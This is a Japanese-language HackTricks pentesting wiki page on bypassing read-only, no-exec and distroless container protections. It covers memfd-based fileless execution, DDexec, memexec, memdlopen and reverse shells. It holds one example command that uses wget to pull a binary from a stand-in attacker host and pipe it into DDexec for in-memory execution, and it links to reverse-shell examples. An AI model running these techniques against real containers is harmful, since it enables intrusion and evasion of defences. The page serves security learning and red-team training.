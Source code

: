 # FS保護のバイパス: 読み取り専用 / 実行不可 / Distroless

{% hint style="success" %}
AWSハッキングを学び、実践する:<img src="../../../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/arte.png" alt="" data-size="line">\
GCPハッキングを学び、実践する: <img src="../../../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricksをサポートする</summary>

* [**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)を確認してください！
* **💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)または[**Telegramグループ**](https://t.me/peass)に参加するか、**Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**をフォローしてください。**
* **ハッキングトリックを共有するには、[**HackTricks**](https://github.com/carlospolop/hacktricks)および[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のGitHubリポジトリにPRを送信してください。**

</details>
{% endhint %}

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

**ハッキングキャリア**に興味があり、ハッキング不可能なものをハッキングしたい方 - **私たちは採用中です！** (_流暢なポーランド語の読み書きが必要です_)。

{% embed url="https://www.stmcyber.com/careers" %}

## 動画

以下の動画では、このページで言及された技術がより深く説明されています：

* [**DEF CON 31 - Linuxメモリ操作の探求：ステルスと回避**](https://www.youtube.com/watch?v=poHirez8jk4)
* [**DDexec-ngとメモリ内dlopen()によるステルス侵入 - HackTricks Track 2023**](https://www.youtube.com/watch?v=VM\_gjjiARaU)

## 読み取り専用 / 実行不可シナリオ

Linuxマシンが**読み取り専用（ro）ファイルシステム保護**でマウントされることがますます一般的になっています。特にコンテナでは、**`readOnlyRootFilesystem: true`**を`securitycontext`に設定するだけで、roファイルシステムでコンテナを実行することができます：

<pre class="language-yaml"><code class="lang-yaml">apiVersion: v1
kind: Pod
metadata:
name: alpine-pod
spec:
containers:
- name: alpine
image: alpine
securityContext:
<strong>      readOnlyRootFilesystem: true
</strong>    command: ["sh", "-c", "while true; do sleep 1000; done"]
</code></pre>

しかし、ファイルシステムがroとしてマウントされていても、**`/dev/shm`**は書き込み可能であるため、ディスクに何も書き込めないというのは偽りです。ただし、このフォルダは**実行不可保護**でマウントされるため、ここにバイナリをダウンロードしても**実行することはできません**。

{% hint style="warning" %}
レッドチームの観点から見ると、これは**システムに既に存在しないバイナリ（バックドアや`kubectl`のような列挙ツール）をダウンロードして実行することを複雑にします**。
{% endhint %}

## 最も簡単なバイパス: スクリプト

バイナリについて言及しましたが、**インタープリタがマシン内にある限り、任意のスクリプトを実行できます**。たとえば、`sh`が存在する場合は**シェルスクリプト**、`python`がインストールされている場合は**Pythonスクリプト**です。

ただし、これはバイナリバックドアや他のバイナリツールを実行するには十分ではありません。

## メモリバイパス

バイナリを実行したいがファイルシステムがそれを許可していない場合、最良の方法は**メモリから実行すること**です。なぜなら、**保護はそこには適用されないからです**。

### FD + execシステムコールバイパス

マシン内に**Python**、**Perl**、または**Ruby**などの強力なスクリプトエンジンがある場合、メモリから実行するためにバイナリをダウンロードし、メモリファイルディスクリプタ（`create_memfd`システムコール）に保存できます。これはこれらの保護によって保護されないため、**`exec`システムコール**を呼び出して**実行するファイルとしてfdを指定**できます。

これには、プロジェクト[**fileless-elf-exec**](https://github.com/nnsee/fileless-elf-exec)を簡単に使用できます。バイナリを渡すと、**バイナリが圧縮され、b64エンコードされ**、`create_memfd`システムコールを呼び出して作成された**fd**で**デコードおよび解凍する**ための指示を含むスクリプトが生成されます。

{% hint style="warning" %}
これは、PHPやNodeのような他のスクリプト言語では機能しません。なぜなら、スクリプトから生のシステムコールを呼び出す**デフォルトの方法がないため**、バイナリを保存するための**メモリfd**を作成するために`create_memfd`を呼び出すことができないからです。

さらに、`/dev/shm`内のファイルで**通常のfd**を作成しても機能しません。なぜなら、**実行不可保護**が適用されるため、実行することが許可されないからです。
{% endhint %}

### DDexec / EverythingExec

[**DDexec / EverythingExec**](https://github.com/arget13/DDexec)は、プロセスの**`/proc/self/mem`**を上書きすることによって**自分のプロセスのメモリを変更する**ことを可能にする技術です。

したがって、**プロセスによって実行されているアセンブリコードを制御することで、**シェルコードを書き込み、プロセスを「変異」させて**任意のコードを実行する**ことができます。

{% hint style="success" %}
**DDexec / EverythingExec**を使用すると、**メモリから**自分の**シェルコード**や**任意のバイナリ**を**ロードして実行**できます。
{% endhint %}
```bash
# Basic example
wget -O- https://attacker.com/binary.elf | base64 -w0 | bash ddexec.sh argv0 foo bar
```
For more information about this technique check the Github or:

{% content-ref url="ddexec.md" %}
[ddexec.md](ddexec.md)
{% endcontent-ref %}

### MemExec

[**Memexec**](https://github.com/arget13/memexec)は、DDexecの自然な次のステップです。これは**DDexecシェルコードのデーモン化**であり、異なるバイナリを**実行したいとき**にDDexecを再起動する必要はなく、DDexec技術を介してmemexecシェルコードを実行し、**このデーモンと通信して新しいバイナリを読み込んで実行する**ことができます。

**memexecを使用してPHPリバースシェルからバイナリを実行する方法の例**は[https://github.com/arget13/memexec/blob/main/a.php](https://github.com/arget13/memexec/blob/main/a.php)で見つけることができます。

### Memdlopen

DDexecと同様の目的を持つ[**memdlopen**](https://github.com/arget13/memdlopen)技術は、**メモリにバイナリを読み込む**ための**簡単な方法**を提供します。依存関係を持つバイナリを読み込むことも可能です。

## Distroless Bypass

### What is distroless

Distrolessコンテナは、特定のアプリケーションやサービスを実行するために必要な**最小限のコンポーネント**（ライブラリやランタイム依存関係など）だけを含み、パッケージマネージャー、シェル、システムユーティリティなどの大きなコンポーネントは除外します。

Distrolessコンテナの目的は、**不要なコンポーネントを排除することによってコンテナの攻撃面を減少させ**、悪用可能な脆弱性の数を最小限に抑えることです。

### Reverse Shell

Distrolessコンテナでは、**通常のシェルを取得するための`sh`や`bash`**さえ見つからないかもしれません。また、`ls`、`whoami`、`id`などのバイナリも見つかりません... システムで通常実行するすべてのものです。

{% hint style="warning" %}
したがって、**リバースシェル**を取得したり、通常のように**システムを列挙**したりすることは**できません**。
{% endhint %}

しかし、もし侵害されたコンテナが例えばflaskウェブを実行している場合、pythonがインストールされているため、**Pythonリバースシェル**を取得できます。nodeを実行している場合はNodeリバースシェルを取得でき、ほとんどの**スクリプト言語**でも同様です。

{% hint style="success" %}
スクリプト言語を使用することで、言語の機能を利用して**システムを列挙**することができます。
{% endhint %}

もし**`read-only/no-exec`**保護がなければ、リバースシェルを悪用して**ファイルシステムにバイナリを書き込み**、**実行**することができます。

{% hint style="success" %}
ただし、この種のコンテナでは通常これらの保護が存在しますが、**以前のメモリ実行技術を使用してそれらを回避する**ことができます。
{% endhint %}

**RCE脆弱性を悪用してスクリプト言語の**リバースシェル**を取得し、メモリからバイナリを実行する方法の**例**は[**https://github.com/carlospolop/DistrolessRCE**](https://github.com/carlospolop/DistrolessRCE)で見つけることができます。

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

**ハッキングキャリア**に興味があり、ハッキング不可能なものをハッキングしたい方 - **私たちは採用中です！** (_流暢なポーランド語の読み書きが必要です_)。

{% embed url="https://www.stmcyber.com/careers" %}

{% hint style="success" %}
AWSハッキングを学び、実践する：<img src="../../../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/arte.png" alt="" data-size="line">\
GCPハッキングを学び、実践する：<img src="../../../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* [**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)を確認してください！
* 💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)または[**テレグラムグループ**](https://t.me/peass)に参加するか、**Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**をフォローしてください。**
* [**HackTricks**](https://github.com/carlospolop/hacktricks)および[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のgithubリポジトリにPRを提出してハッキングトリックを共有してください。

</details>
{% endhint %}
